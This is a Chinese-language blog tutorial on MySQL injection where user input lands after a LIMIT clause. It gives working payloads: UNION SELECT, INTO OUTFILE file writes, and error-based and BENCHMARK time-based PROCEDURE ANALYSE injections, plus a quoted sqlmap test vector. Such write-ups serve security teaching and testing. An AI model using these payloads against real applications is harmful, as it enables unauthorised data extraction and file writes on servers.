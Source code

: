 ```yaml
---
layout: post
title:  "mysql注入之limit注入"
date:   2018-01-25 21:41:45 +0800
categories: [mysql注入, limit注入]
---
```

> 这个limit注入为何拿出来提呢？定有它的特别之处

# 0X00 官方文档中的 limit
```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
和之前的order by注入的文档是同一个，都是介绍select的文档，不过和order by不同的是limit后面可以跟的内容中没有表达式，并且可以使用的关键字有限只有两个“INTO file”、“procedure” 

# 0X01 单独的limit
单独的limit的出现的话，其实并不常见，其的利用方式除了前面介绍的limit后面的两个关键字外，还可以使用union，union是mysql 4.0版本出现的一个新的特性，也就是说union使用条件是mysql>4.0，由于mysql 4.0出现在2003年，现在遇到的mysql基本都可以满足这个条件，利用的话就像下面这样

```sql
mysql> select * from users limit 1 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 2        | 3        |
+----+----------+----------+
```
没什么特别的

# 0X02 order by之后的limit
首先介绍下为什么这种情况的话比较的多，原因其实也简单，如果order by出现在union的子句中，那么必须加上limit，否则order by不生效，官方文档说明如下

```
Use of ORDER BY for individual SELECT statements implies nothing about the order in which the rows appear in the final result because UNION by default produces an unordered set of rows. Therefore, the use of ORDER BY in this context is typically in conjunction with LIMIT, so that it is used to determine the subset of the selected rows to retrieve for the SELECT, even though it does not necessarily affect the order of those rows in the final UNION result. If ORDER BY appears without LIMIT in a SELECT, it is optimized away because it will have no effect anyway.
```

这种情况下我们将不能再利用union，原因很简单，详见[SQL注入之order by注入](http://lietolive.com/sql/order%20by%E6%B3%A8%E5%85%A5/2018/01/13/SQL%E6%B3%A8%E5%85%A5orderBy%E6%B3%A8%E5%85%A5.html)。于是，我们的选择只剩下“INTO file” 和 “procedure”

1. “INTO file”写文件

```sql
mysql> select * from users order by id limit 1 into outfile '/xxxxx/1.txt';
```

2. procedure

```shell
PROCEDURE ANALYSE() is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0
```
但是之前wooyunZone上得出的结论是只有5.0<mysql<5.66才可以，所以我本地也没有复线，总结下利用方式吧

报错
```shell
select * from users order by id limit 1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```

时间 - 只能使用BENCHMARK
```shell
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

# 0X03 sqlmap 表现情况

```shell
    <test>
        <title>MySQL &gt;= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)</title>
        <stype>5</stype>
        <level>3</level>
        <risk>2</risk>
        <clause>1,2,3,4,5</clause>
        <where>1</where>
        <vector>PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)</vector>
        <request>
            <payload>PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))))),1)</payload>
        </request>
        <response>
            <time>[SLEEPTIME]</time>
        </response>
        <details>
            <dbms>MySQL</dbms>
            <dbms_version>&gt;= 5.0.12</dbms_version>
        </details>
    </test>
```
从这段payload中可以发现，sqlmap是拥有这种场景下的检测能力的，并且判断的mysql版本和wooyunZone中所讨论的一致

# 0X04 参考

1、[Testing for MySQL](https://www.owasp.org/index.php/Testing_for_MySQL)

2、[mysql4.0 4.1 5.0 三个版本的特性对比](http://kong1616.iteye.com/blog/674561)

3、[UNION Syntax](https://dev.mysql.com/doc/refman/5.7/en/union.html)

4、[Using PROCEDURE ANALYSE](https://dev.mysql.com/doc/refman/5.7/en/procedure-analyse.html)

5、[技术分享：Mysql注入点在limit关键字后面的利用方法](http://www.freebuf.com/articles/web/57528.html)